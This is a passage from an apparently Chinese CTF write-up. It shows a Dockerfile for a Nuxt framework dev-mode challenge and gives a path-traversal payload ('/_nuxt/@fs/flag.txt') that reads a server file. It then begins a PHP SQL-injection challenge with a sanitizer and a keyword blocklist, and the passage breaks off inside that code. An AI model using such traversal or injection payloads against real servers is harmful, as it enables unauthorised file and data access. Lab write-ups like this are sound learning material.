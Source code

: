 ```php
# Clone the Nuxt.js repository and switch to the desired release
RUN git clone https://github.com/nuxt/framework.git /app && \
    cd /app && \
    git checkout v3.0.0-rc.12

# Copy the test.txt file from the build context into the container
COPY flag.txt /

# Copy app.vue into container
COPY app.vue /app/playground/

# Install project dependencies using pnpm
RUN pnpm install
RUN pnpm build:stub

# Add new user named ctf and add permission for corepace
RUN useradd -ms /bin/bash ctf

RUN mkdir /home/ctf/.cache && chmod -R 777 /home/ctf/.cache && chmod -R 777 /app

# Change to user ctf
USER ctf

# Expose the port that Nuxt.js will run on
EXPOSE 3000

# Start the Nuxt.js development server
CMD ["pnpm", "run", "dev", "--host", "0.0.0.0"]

```

看到是开发者模式肯定很多人第一时间想到CVE-2023-3224吧？

但经验丰富的话你会发现，人家是nuxt/framework，根本不是一个东西。

这时候就考验漏洞储备了，不一定能搜到。我第一反应是dev模式的目录穿越，所以直接秒了。

payload：

```php
/_nuxt/@fs/flag.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/05b057101e2d4bd991ae94cb7f097b87.png)

## Bypassssss
![在这里插入图片描述](https://img-blog.csdnimg.cn/2c5b5dc7b5314a19b6a73857fe71f53e.png)
这道题也非常简单。。。是一道php的sql注入，大家看看源码就知道咋回事了。。

```php
<?php
	session_start();

	include 'config.php';

	function sanitizeString($input) {
		$pattern = '/[\'"\(\)%=;\.\s-]/';
		$sanitized = preg_replace($pattern, '', $input);
		return $sanitized;
	}

	function removeBadStrings($input) {
		$badStrings = array(
        		'/UNION/i',
        		'/OR/i',
```